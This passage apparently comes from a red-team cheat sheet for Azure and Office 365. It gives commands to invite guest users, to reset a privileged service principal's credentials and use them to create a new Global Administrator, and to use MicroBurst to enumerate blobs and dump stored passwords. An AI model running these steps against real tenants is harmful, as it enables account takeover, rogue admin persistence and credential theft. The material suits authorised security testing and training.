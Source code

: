 ```powershell
$Body="{'invitedUserEmailAddress':'Email Address to Invite', 'inviteRedirectUrl': 'https://portal.azure.com'}”
az rest --method POST --uri https://graph.microsoft.com/v1.0/invitations --headers "Content-Type=application/json" --body $Body
```
Then use InvitationRedeemUrl to accept invite on guest user account

#### Service Principal Attack Path
Commands for resetting a service principal credential that has higher privileges and then using the service principal to create a new user in the tenant with global admin permissions.

Create a new credential for service principal

```bash
az ad sp credential reset --id <app_id>
az ad sp credential list --id <app_id>
```

Login as a service principal using the password and app ID from previous command

```bash
az login --service-principal -u "app id" -p "password" --tenant <tenant ID> --allow-no-subscriptions
```

Create a new user in the tenant

```bash
az ad user create --display-name <display name> --password <password> --user-principal-name <full upn>
```

Add user to Global Admin group ID via MS Graph API:

```powershell
$Body="{'principalId':'User Object ID', 'roleDefinitionId': '62e90394-69f5-4237-9190-012177145e10', 'directoryScopeId': '/'}”
az rest --method POST --uri https://graph.microsoft.com/v1.0/roleManagement/directory/roleAssignments --headers "Content-Type=application/json" --body $Body
```
### Other Azure & O365 Tools

#### MicroBurst

Azure security assessment tool

https://github.com/NetSPI/MicroBurst 

Look for open storage blobs 

```powershell
Invoke-EnumerateAzureBlobs -Base $BaseName 
```

Export SSL/TLS certs 

```powershell
Get-AzPasswords -ExportCerts Y
```
